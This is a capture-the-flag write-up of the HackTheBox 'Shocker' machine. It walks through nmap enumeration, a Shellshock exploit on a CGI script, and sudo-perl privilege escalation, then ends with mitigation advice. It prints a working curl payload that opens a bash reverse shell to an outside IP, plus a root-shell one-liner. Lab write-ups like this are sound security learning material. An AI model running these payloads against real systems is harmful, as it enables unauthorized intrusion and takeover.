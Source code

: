 # [Shocker]: HTB Lab Write-Up
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
Shocker - Difficulty: Easy  
- **Description:** A Linux machine that exploits a vulnerable CGI script to gain initial access and escalates privileges using improper sudo configurations.
- **Skills Required:** Web exploitation, Bash command injection, and privilege escalation.

---

## Enumeration
### Nmap Scan
**Command:**  
```bash
nmap -sC -sV 192.168.x.x
```

**Findings:**  
- Port `80` running Apache HTTPD 2.4.18  
- Directory `/cgi-bin/` detected.  

Screenshot:  
![Nmap Scan](screenshots/nmap_scan.png)

---

## Exploitation
### Step 1: Shellshock Exploit on `/cgi-bin/user.sh`
The target is vulnerable to **ShellShock** (CVE-2014-6271). This was exploited by injecting a reverse shell command via an HTTP header:  

**Command:**  
```bash
curl -H 'User-Agent: () { :;}; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1"' http://192.168.x.x/cgi-bin/user.sh
```

**Result:**  
A reverse shell as the user `shelly` was obtained.  

Screenshot:  
![Reverse Shell](screenshots/reverse_shell.png)  

---

## Privilege Escalation
### Step 1: Analyze Permissions
**Command:**  
```bash
sudo -l
```

**Result:**  
User `shelly` has sudo permissions to run `/usr/bin/perl` as root without a password:  
```plaintext
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Step 2: Exploit `/usr/bin/perl` to Gain Root
Using the provided sudo permissions, root access was achieved by spawning a bash shell through Perl:  

**Command:**  
```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

**Result:**  
A root shell was obtained.  

Screenshot:  
![Root Access](screenshots/root_access.png)

### Step 3: Capture the Root Flag
Navigate to `/root` and display the `root.txt` file:  
```bash
cat /root/root.txt
```

---

## Conclusion
- **Key Lessons Learned:**
  1. Always scan for vulnerable services, such as CGI scripts.
  2. The importance of properly managing `sudo` permissions to avoid privilege escalation.
- **Tools Used:** Nmap, curl, netcat.
- **Next Steps:** Mitigation practices include:
  - Updating Bash to fix ShellShock.
  - Minimizing sudo permissions granted to regular users.
```

